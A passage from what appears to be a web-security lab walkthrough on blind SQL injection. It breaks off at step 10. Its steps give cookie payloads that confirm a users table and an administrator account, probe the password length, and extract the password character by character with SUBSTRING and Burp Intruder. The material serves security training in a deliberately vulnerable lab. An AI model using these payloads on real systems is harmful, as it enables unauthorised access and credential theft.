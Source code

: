    ```
   TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   ```

   Verify that the condition is true, confirming that there is a table called `users`.

5. Now change it to:

   ```
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   ```

   Verify that the condition is true, confirming that there is a user called `administrator`.

6. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:

   ```
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
   ```

   This condition should be true, confirming that the password is greater than 1 character in length.

7. Send a series of follow-up values to test different password lengths. Send:

   ```
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
   ```

   Then send:

   ```
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
   ```

   And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.

9. In the Positions tab of Burp Intruder, change the value of the cookie to:

   ```
   TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
   ```

   This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

10. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
